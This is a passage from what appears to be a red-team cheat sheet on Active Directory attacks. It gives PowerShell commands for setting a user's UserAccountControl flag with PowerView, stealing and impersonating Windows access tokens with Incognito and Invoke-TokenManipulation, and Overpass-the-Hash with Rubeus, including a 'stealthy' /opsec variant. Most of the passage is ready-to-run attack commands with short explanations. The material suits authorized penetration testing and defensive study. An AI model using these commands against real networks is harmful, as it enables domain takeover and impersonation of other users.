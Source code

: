 Again, we need ACL write permissions to set UserAccountControl flags for the target user. Using PowerView:

```powershell
Set-DomainObject -Identity TargetUser -XOR @{useraccountcontrol=4194304}
```

#### Token Manipulation <a href="#token-manipulation" id="token-manipulation"></a>

Tokens can be impersonated from other users with a session/running processes on the machine. Most C2 frameworks have functionality for this built-in (such as the ‘Steal Token’ functionality in Cobalt Strike).

**Incognito**

```powershell
# Show tokens on the machine
.\incognito.exe list_tokens -u

# Start new process with token of a specific user
.\incognito.exe execute -c "domain\user" C:\Windows\system32\calc.exe
```

If you’re using Meterpreter, you can use the built-in Incognito module with `use incognito`, the same commands are available.

**Invoke-TokenManipulation**

```powershell
# Show all tokens on the machine
Invoke-TokenManipulation -ShowAll

# Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate

# Start new process with token of a specific user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"

# Start new process with token of another process
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500
```

#### Lateral Movement with Rubeus <a href="#lateral-movement-with-rubeus" id="lateral-movement-with-rubeus"></a>

We can use Rubeus to execute a technique called “Overpass-the-Hash”. In this technique, instead of passing the hash directly (another technique known as Pass-the-Hash), we use the NTLM hash of an account to request a valid Kerberost ticket (TGT). We can then use this ticket to authenticate towards the domain as the target user.

```powershell
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```
